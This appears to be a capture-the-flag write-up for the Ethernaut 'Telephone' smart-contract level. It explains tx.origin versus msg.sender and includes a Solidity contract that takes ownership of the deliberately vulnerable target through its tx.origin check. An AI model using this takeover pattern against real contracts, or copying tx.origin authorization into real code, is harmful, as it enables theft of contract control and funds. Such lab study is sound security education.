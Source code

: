 # 4. Telephone

**msg.sender:** Refers to the address of an account or a smart contract which is directly calling a smart contract’s function.

**tx.origin:** Refers to the address of an account which is calling a smart contract’s function, only account address can be tx.origin.

![Untitled](4%20Telephone%203e010522c5ff405aaa7418381e214a6e/Untitled.png)

**It is highly recommended to always using msg.sender for authorization or for checking the address that is calling a smart contract. And never use tx.origin for authorization, as this could make a contract vulnerable to phishing attacks.**

[https://davidkathoh.medium.com/tx-origin-vs-msg-sender-93db7f234cb9](https://davidkathoh.medium.com/tx-origin-vs-msg-sender-93db7f234cb9)

[https://www.adrianhetman.com/unboxing-tx-origin/](https://www.adrianhetman.com/unboxing-tx-origin/)

Call vs DelegateCall

EOA → Contract A → Contract B

Call

- tx.origin = EOA address
- msg.sender = contract A
- msg.value = contract A msg.value

Delegatecall

- tx.origin = EOA address
- msg.sender = EOA address
- msg.value = EOA msg.value

msg.sender vs tx.origin

- msg.sender는 실행 컨텍스트에 따라 달라짐
- tx.origin은 항상 트랜잭션 센더, 즉 EOA 임

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract HackTelephone {
  address public constant telephone = 0xAD24230f7A09938538d59798e5D5d252A41D7269;
  address public constant myAccount = 0xe8366E50ed089Eea4df663116e257B5D79fbD953;

  function hackTelephone() public {
    Telephone(telephone).changeOwner(myAccount);
  }
}

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```